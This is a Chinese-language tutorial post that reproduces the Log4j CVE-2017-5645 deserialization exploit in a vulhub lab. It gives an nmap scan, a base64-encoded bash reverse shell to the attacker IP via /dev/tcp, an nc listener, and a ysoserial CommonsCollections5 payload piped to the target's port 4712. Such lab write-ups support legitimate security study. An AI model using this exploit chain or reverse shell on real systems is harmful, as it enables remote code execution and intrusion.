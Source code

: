#  Log4j CVE-2017-5645反序列化漏洞   
原创 Hacker  0xh4ck3r   2025-01-20 04:01  
  
## Log4j CVE-2017-5645反序列化漏洞  
### 影响范围  
  
Apache Log4j 2.x <= 2.8.2  
### 漏洞成因  
  
Apache   
Log4j  
是一个用于Java的日志记录库，其支持启动远程日志服务器。Apache Log4j 2.8.2之 前的2.x版本中存在安全漏洞。攻击者可利用该漏洞执行任意代码。  
### 漏洞利用  
#### 环境准备  
  
<table><thead><tr><th valign="top" style="color: rgb(0, 0, 0);font-size: 16px;line-height: 1.5em;letter-spacing: 0em;text-align: left;font-weight: bold;background-attachment: scroll;background-clip: border-box;background-color: rgb(240, 240, 240);background-image: none;background-origin: padding-box;background-position-x: 0%;background-position-y: 0%;background-repeat: no-repeat;background-size: auto;width: auto;height: auto;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;"><section><span leaf="">名称</span></section></th><th valign="top" style="color: rgb(0, 0, 0);font-size: 16px;line-height: 1.5em;letter-spacing: 0em;text-align: left;font-weight: bold;background-attachment: scroll;background-clip: border-box;background-color: rgb(240, 240, 240);background-image: none;background-origin: padding-box;background-position-x: 0%;background-position-y: 0%;background-repeat: no-repeat;background-size: auto;width: auto;height: auto;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;"><section><span leaf="">IP</span></section></th></tr></thead><tbody><tr style="color: rgb(0, 0, 0);background-attachment: scroll;background-clip: border-box;background-color: rgb(255, 255, 255);background-image: none;background-origin: padding-box;background-position-x: 0%;background-position-y: 0%;background-repeat: no-repeat;background-size: auto;width: auto;height: auto;"><td valign="top" style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">攻击机</span></section></td><td valign="top" style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">192.168.75.162</span></section></td></tr><tr style="color: rgb(0, 0, 0);background-attachment: scroll;background-clip: border-box;background-color: rgb(248, 248, 248);background-image: none;background-origin: padding-box;background-position-x: 0%;background-position-y: 0%;background-repeat: no-repeat;background-size: auto;width: auto;height: auto;"><td valign="top" style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">靶机</span></section></td><td valign="top" style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">192.168.75.146</span></section></td></tr></tbody></table>  
  
首先输入以下命令进入vulhub里启动靶场，然后在攻击机里访问http://192.168.75.146:8983即可  
```
cd vulhub-master/log4j/CVE-2017-5645
docker-compose up -d

```  
  
然后进入攻击机里使用nmap扫描全端口：  
```
nmap -sS 192.168.75.146 -p 1-65535 -v

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7B71peL7FQRaEWrsYcXbc01E0MoDYX0oEJLcd8vYSmgnRNJzXoibuQYx15CFKekg9VuAvMUGLsYP1OjkBynb4Rg/640?wx_fmt=png&from=appmsg "")  
  
image-20220725135637339  
#### 漏洞复现  
  
首先准备好生成利用的工具：**ysoserial.jar**  
#### 工具验证漏洞是否存在  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7B71peL7FQRaEWrsYcXbc01E0MoDYX0o3SZsL6quKOyia7UATwK73bCXrFky7lMm00CFhLO8kAnnibIYWNDOPFfw/640?wx_fmt=png&from=appmsg "")  
  
image-20220725142627138  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7B71peL7FQRaEWrsYcXbc01E0MoDYX0oxjjERuykVSicrzKe61g3F7fo3ejvYArq0myQaCmyr4oK5aWGvBCJC8Q/640?wx_fmt=png&from=appmsg "")  
  
image-20220725142656093  
  
可以看出存在log4j漏洞  
  
POC：  
```
//反弹shell命令，注意替换为自己的
bash -i >& /dev/tcp/192.168.75.162/6666 0>&1
//base64加密
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4Ljc1LjE2Mi82NjY2IDA+JjE=

```  
  
接下来新打开一个cmd窗口执行以下命令：  
```
nc -lvvp 6666

```  
  
监听启动后我们使用payload：  
```
java -jar ysoserial.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4Ljc1LjE2Mi82NjY2IDA+JjE=}|{base64,-d}|{bash,-i}" | nc 192.168.75.146 4712

```  
  
访问上述地址后，可以看到如下图，**反弹shell成功，此漏洞利用成功**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7B71peL7FQRaEWrsYcXbc01E0MoDYX0okaymwUBvsibv05cXjiaLAm47III7aXgXpctcaqqPAjVCfKTfibUccAJDw/640?wx_fmt=png&from=appmsg "")  
  
image-20220725152235839  
  
  
